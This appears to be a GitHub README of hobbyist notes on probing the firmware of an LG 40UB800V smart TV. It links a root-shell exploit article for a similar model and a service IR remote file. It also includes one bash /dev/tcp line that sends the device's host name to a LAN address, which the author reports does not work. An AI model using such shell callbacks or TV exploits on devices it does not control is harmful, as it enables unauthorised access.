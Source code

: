 # lg-40ub800v
Exploring NetCast4.5 on lg 40ub800v

Exploit of a similar model:

https://www.encrypted.at/remote-root-shell-on-lg-tv-2013-netcast-models/

Service Remote IR File:

https://github.com/logickworkshop/Flipper-IRDB/blob/main/TVs/LG/LG_MKJ39170828_Service.ir

Charriot Endpoint is startable

Exploit from article above does not work

Thought about something like this:



Serial adapter(?):

you can connect a PL2303-based USB/serial adapter
although it may require specific VID/PID (aten UC232)

Testing TCP Connections?

Maybe this works?

```
"Hi from LGTV at $(uname -n)" 2>/dev/null > /dev/tcp/192.168.178.123/8989"
```

TIL it won't, thats a bash feature

LG Opensource about a similar model with NetCast4.5

https://opensource.lge.com/product/list?page=&keyword=netcast4.5&schType=

(Click on the Notice Icon)
